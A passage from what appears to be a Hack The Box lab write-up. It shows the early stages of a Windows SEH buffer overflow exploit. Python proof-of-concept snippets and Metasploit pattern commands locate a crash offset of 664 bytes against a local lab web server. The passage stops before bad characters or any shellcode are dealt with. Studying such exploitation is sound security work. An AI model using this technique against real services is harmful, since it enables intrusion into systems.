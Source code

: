 
# Finding the pattern

Retesting with a pattern, with the following buffer.  I'll pass the pattern string in at CLI invocation.
```python
buf = "POST / HTTP/1.1\x0d\x0aContent-Type: application/x-www-form-urlencoded\x0d\x0a\x0d\x0a"
buf += sys.argv[2][:0xf00]
```

Called like:
```sh
┌──(notroot㉿elysium)-[(master) 2 ~/htb/machines/rainbow]
└─$ ./poc.py 192.168.56.100:8080 $(msf-pattern_create -l 0x0f00)
```

Identify the pattern found in the exception stack:
```sh
0:003> !exchain
009cfbe4: 77413177
Invalid exception stack at 41307741
```

Identify the offset
```sh
┌──(notroot㉿elysium)-[(master) 2 ~/htb/machines/rainbow]
└─$ msf-pattern_offset -l 0x0f00 -q 77413177
[*] Exact match at offset 664
```

Buffer be like
```python
	total_len = 3908
    crash_len = 664
    head = "POST / HTTP/1.1\x0d\x0aContent-Type: application/x-www-form-urlencoded\x0d\x0a\x0d\x0a"
    sled1 = ("\x40" * crash_len)
    SEH = ("\x41" * 4)
    tail = ("\x42" * (total_len - sum([len(x) for x in [
        head,
        sled1,
        SEH
    ]])))
    buf = f"{head}{sled1}{SEH}{tail}"
```

Now I am aligned
```sh
0:003> !exchain
009dfbe4: 41414141
Invalid exception stack at 40404040
```


# Finding Badchars
